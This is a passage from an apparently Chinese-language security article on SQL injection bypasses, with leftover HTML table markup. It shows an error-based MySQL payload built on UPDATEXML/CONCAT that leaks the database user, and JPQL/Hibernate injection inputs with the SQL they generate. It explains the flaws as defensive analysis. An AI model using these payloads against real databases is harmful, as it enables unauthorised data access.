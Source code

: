END</span></code></td></tr><tr style="color: rgb(53, 53, 53);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: left;background-position-y: top;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">报错注入</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">几何函数+类型转换</span></section></td><td style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><code><span leaf="">ST_LatFromGeoHash(IF(1=1,UPDATEXML(1,CONCAT(0x7e,(SELECT USER())),1),1)</span></code></td></tr></tbody></table>  
### 1.3 框架层的语句分析  
#### 1.3.1 基于JPQL类型的绕过分析  
  
JPQL注入漏洞源于不安全的查询拼接：  
```
// 不安全实现
String jpql = "SELECT u FROM User u WHERE u.username = '" + input + "'";
Query query = em.createQuery(jpql);

// 攻击向量
input = "admin' OR '1'='1'--";

```  
  
**高级绕过技术**  
：  
```
// 利用Hibernate特性
input = "\\' OR 1=1 OR '1'='1";

// 生成的SQL
SELECT * FROM users WHERE username = '\' OR 1=1 OR \'1\'=\'1'

```  
  
**漏洞根源**  
：ORM框架的查询转换过程中，转义字符处理不当导致SQL注入。  
#### 1.3.2 基于Hibernate类型的绕过分析  
  